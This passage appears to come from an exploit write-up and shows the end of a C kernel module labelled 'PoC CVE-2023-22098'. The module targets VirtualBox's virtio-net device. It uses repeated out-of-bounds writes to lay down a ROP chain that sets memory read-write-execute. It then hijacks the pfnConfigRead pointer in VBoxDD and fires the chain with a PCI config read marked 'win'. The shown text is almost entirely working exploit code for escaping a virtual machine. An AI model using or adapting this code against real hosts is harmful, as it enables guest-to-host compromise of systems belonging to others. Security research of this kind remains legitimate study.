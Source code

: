 ```c
    oob_write(dev, vdev, VBoxDD_addr + pop_rsi_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 15) - aVlanFilter_off, 64); //pop rsi
    oob_write(dev, vdev, 0x1000, PDMPCIDEVINT_s + ROP_off                    + (0x8 * 16)  - aVlanFilter_off, 64); //rsi value
    oob_write(dev, vdev, VBoxDD_addr + pop_rdx_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 17) - aVlanFilter_off, 64); //pop rdx
    oob_write(dev, vdev, RTMEM_PROT_READ | RTMEM_PROT_WRITE | RTMEM_PROT_EXEC, PDMPCIDEVINT_s + ROP_off + (0x8 * 18) - aVlanFilter_off, 64); //rdx value

    oob_write(dev, vdev, pDevInsR3_addr + 0x3000 - 0x200 - 0x200, PDMPCIDEVINT_s + ROP_off + (0x8 * 20) - aVlanFilter_off, 64);

    //modify pDevInsR3.
    oob_write(dev, vdev, pDevInsR3_addr + 0x3000 - 0x200, PDMPCIDEVINT_s - aVlanFilter_off, 64);

    oob_write(dev, vdev, VBoxDD_addr + 0x4d1a2f, PDMPCIDEVINT_s + pfnConfigRead_off - aVlanFilter_off, 64);

    //win
    pci_read_config_word(dev->pci_dev, 0, &val);

    return 0;
}

static void dp_virtio_net_remove(struct virtio_device *vdev)
{
    struct dp_xpl *dev = vdev->priv;

    // Reset the device and free the virtqueues 
    vdev->config->reset(vdev);
    vdev->config->del_vqs(vdev);
    kfree(dev->ctrl);
    kfree(dev);

    pr_info("[+] virtio-net removed [+].\n");
}

static const struct virtio_device_id dp_virtio_net_id_table[] = {
    { VIRTIO_ID_NET, VIRTIO_DEV_ANY_ID },
    { 0 },
};

static struct virtio_driver dp_virtio_net = {
    .driver.name = "dp_virtio_net",
    .id_table    = dp_virtio_net_id_table,
    .probe       = dp_virtio_net_probe,
    .remove      = dp_virtio_net_remove,
};

// The `module_init` and `module_exit` functions are already implicit in the `module_virtio_driver` macro.
module_virtio_driver(dp_virtio_net);

MODULE_DESCRIPTION("PoC CVE-2023-22098");
MODULE_AUTHOR("DiegoAltF4");
MODULE_LICENSE("GPL");
```
{: file="exploit.c" }
